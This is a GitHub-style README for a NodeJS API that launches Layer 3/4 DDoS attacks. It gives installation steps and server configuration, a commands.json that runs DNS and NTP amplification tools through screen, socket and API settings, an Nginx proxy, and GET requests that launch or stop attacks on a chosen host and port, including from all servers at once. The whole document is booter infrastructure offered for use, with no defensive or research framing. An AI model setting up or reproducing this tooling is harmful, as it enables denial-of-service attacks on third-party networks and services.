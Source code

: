 <h2>NodeJS API for Layer 3/4 attacks</h2>

<h3>Coded by forky (tg: @yfork)</h3>

<h4>This API is very secure and fast (taking 2x the ping between API and backend, if the ping is 60ms it will take only 120ms to launch the attack)</h4>


<h1>Installation:</h1>

```sh
curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -
sudo apt -y install nodejs
npm i express
```

<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "alpha": {
        "name": "alpha",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "beta": {
        "name": "beta",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "DNS": "screen -dmS attack_${attack_id} ./dns_amp ${host} ${port} dns.txt 1 250000 ${time}",
    "NTP": "screen -dmS attack_${attack_id} ./ntp_amp ${host} ${port} ntp.txt 1 250000 ${time}",
    "STOP": "screen -dm pkill -f ${host}"
}
```

<h3>Update api.js:</h3><br>

```js
const api_port = 8888; //API Port
const socket_token = "SOCKET_TOKEN"; // TCP Socket token, use random numbers/letters
const api_key = "API_KEY"; // your API Key
const domain_lock = false; // lock api to only be used from a specific domain
const api_domain = 'example.com'; // your API domain (if domain_lock is set to true)
```

<h3>Update socket.js:</h3><br>

```js
const socket_port = 3000;
const socket_token = "SOCKET_TOKEN";
const allowed_ips = ['1.1.1.1'];
```

## After that you upload socket.js to the attack servers and upload api.js, servers.json and commands.json to the API server


### Reverse Proxy

We recommend making a reverse proxy using Nginx to use your API:

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api/attack {
        proxy_pass http://backend:3000/api/attack;
    }
}
```

Replace `'http://backend:3000/api/attack'` with your API server URL

### Using the API

Send a GET request to the API using the required fields

GET `https://api.yourdomain.com/api/attack?host=1.1.1.1&port=80&time=120&method=DNS&server=alpha`

You can set &server=all to launch to all servers

You can stop attacks by sending a GET request to the API using &method=stop

GET `https://api.yourdomain.com/api/attack?host=1.1.1.1&port=80&time=120&method=stop&server=alpha`

